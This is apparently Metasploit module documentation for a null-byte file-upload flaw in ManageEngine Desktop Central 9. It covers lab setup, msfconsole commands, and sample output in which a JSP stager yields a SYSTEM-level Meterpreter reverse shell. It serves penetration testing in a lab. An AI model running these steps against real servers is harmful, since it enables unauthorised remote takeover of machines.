 ## Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null bye at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM. This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file 'rdslog0.txt'.
       
##ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location.It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.



##Prerequisites


1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build 90109 and 91084. You can find the archive here: http://archives.manageengine.com/desktop-central/
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.


## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```


##Sample Output

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```


